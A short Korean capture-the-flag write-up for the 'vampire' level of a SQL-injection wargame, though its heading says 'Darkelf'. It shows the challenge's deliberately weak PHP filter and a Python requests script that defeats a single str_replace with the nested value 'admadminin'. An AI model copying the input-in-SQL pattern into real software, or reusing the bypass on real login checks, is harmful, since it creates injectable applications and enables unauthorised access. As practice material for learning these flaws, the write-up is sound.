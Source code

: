 
## Darkelf Write-up

### 문제
``` php
<?php  
include "./config.php";  
login_chk();  
dbconnect();  
if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");  
$_GET[id] = strtolower($_GET[id]);  
$_GET[id] = str_replace("admin","",$_GET[id]);  
$query = "select id from prob_vampire where id='{$_GET[id]}'";  
echo "<hr>query : <strong>{$query}</strong><hr><br>";  
$result = @mysql_fetch_array(mysql_query($query));  
if($result['id'] == 'admin') solve("vampire");  
highlight_file(__FILE__);  
?>
```

### Exploit 코드
``` python
import requests

url = 'https://los.rubiya.kr/vampire_e3f1ef853da067db37f342f3a1881156.php'
cookies = {'PHPSESSID' : 'My PHPSESSID'}
params = {}
params['id'] = 'admadminin'

res = requests.get(url, cookies=cookies, params=params)

if "Clear" in res.text :
    print("[♪] VAMPIRE Clear")
```
이번 문제는 id가 admin이면 문제가 풀리는데 **str_replace**를 이용해 admin을 빈 값으로 바꾼다.  
**adm`admin`in**과 같이 admin 단어 사이에 admin을 넣으면 `admin`이 빈 값으로 바뀌고, 
**admin**이 되어 문제가 해결된다.